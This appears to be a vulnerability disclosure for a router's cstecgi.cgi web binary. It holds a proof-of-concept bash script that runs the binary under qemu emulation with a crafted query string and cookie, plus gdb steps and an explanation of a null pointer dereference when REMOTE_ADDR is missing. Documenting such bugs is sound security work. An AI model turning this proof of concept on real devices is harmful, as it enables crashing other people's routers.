

## poc

### getPortLinkStaus.sh
```bash
#!/bin/bash
chroot ./ ./qemu-mips-static\
        -E QUERY_STRING="action=save&setting&MFRGG43FMZQW2ZLENFXW4IDPMYFA====&1234567890&ABCDEFGHIJKLMNOPQRSTUVWXYZ" \
        -E CONTENT_LENGTH="123" \
        -E http_host="123" \
        -g 123 -L ./lib \
        ./web_cste/cgi-bin/cstecgi.cgi < cookie.json
```

### cookie.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

### tmp/cookie
```
MFRGG43FMZQW2ZLENFXW4IDPMYFA====
```

## Reproduce
```bash
./getPortLinkStaus.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

When `getenv("REMOTE_ADDR")` failed, `v37` will be a null pointer. Tracing execution path from this point, we can trace that the null pointer is passed into the `strcmp` function.



In the `strcmp`, this null pointer will be dereferenced.


